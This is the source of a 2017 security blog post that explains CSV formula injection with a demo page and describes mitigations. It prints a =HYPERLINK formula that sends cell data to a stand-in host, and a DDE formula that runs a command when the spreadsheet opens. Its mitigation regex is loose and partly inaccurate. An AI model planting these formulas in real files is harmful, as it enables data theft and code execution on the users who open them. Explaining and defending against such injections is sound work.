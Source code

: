 :slug: is-csv-secure/
:date: 2017-12-22
:category: opinions
:tags: security, csv, code, web
:Image: csv.png
:alt: Blank CSV document icon
:description: Comma-Separated Values file (CSV) is a common extension in data files used in several application fields. However CSV files present a serious security issue that must be considered before using this extension. In this article we present a CSV vulnerability most people ignore.  
:keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Ingeniero de Sistemas, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= Is that CSV Secure?

Comma-Separated Values file (or CSV) is a type of file that stores tabular data,
numbers and text in plain text. Each line of the file is a data record and
each record consists of one or more fields separated by commas. CSV is a common
data exchange format that is widely supported by consumer, business, and
scientific applications. As an example, a user may need to transfer information
from a database program that stores data in a proprietary format, to a
spreadsheet that uses a completely different format. The database program most
likely can export its data as "CSV"; the exported CSV file can then be imported
by the spreadsheet program.

image::csv-example.png[example]

There is a vulnerability in this types of format that the most of programmers
ignores, that is "CSV Injection". 
As https://www.owasp.org/index.php/CSV-Injection[OWASP] says, 
it occurs when websites embed untrusted input inside CSV files, 
when a spreadsheet program is used to open a CSV file, 
any cell starting with '*=*' is considered as a formula 
and crafted formulas can be used to malicious attacks.

== CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

image::page-example.png[page]

We put some normal data and nothing happens

image::normal-input.png[input]
image::normal-result.png[result]

But what happens if we put a formula like =2+5 in a field?

image::formula-input.png[formula-input]
image::formula-result.png[formula-result]

On our table nothing happens, but when we open the CSV file we get the result of
the formula that we introduced. This can be very dangerous if someone introduce
a more dangerous code like

----
=HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
----

When the user open the file it shows a link with our malicious site

image::hyperlink-vuln.png[vuln]

Also we can execute commands on the target with this formula injection, in where
we open the calc when someone opens the CSV file

----
=cmd|' /C calc'!A0
----

It shows some warnings but the user trust in the source of the file and accept

image::first-warning.png[warning-1]
image::second-warning.png[warning-2]

And then the code execution

image::exec-example.png[exec]

The effectiveness of this vulnerability is that the user trust on the source of
the file without asking himself if is the normal behaviour when someone opens a
CSV file and the program asks form permission

=== Solution

* First is user awareness, because Windows shows an alert when someone puts
command execution code in the CSV file like we've seen

* Second, input validation, the most common characters to do this attack are:

----
=,+,-,@
----

A developer could make a validation like this regex

.test.py
[source, javascript,linenums]
----
var regexp = new RegExp(/([=,-,+,@])/g);
----

And blocking this types of input, also, can put a space between the dangerous
character like ' =' to mitigate this vulnerability

[source, javascript,linenums]
----
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
----

In this example we can see that the spreadsheet program doesn't calculate the
formula and our input is secure

image::secure-input.png[secure-input]
image::secure-result.png[secure-result]

The source code of the page for testing can be found [button]#link:csvinjection.zip[here >>]#

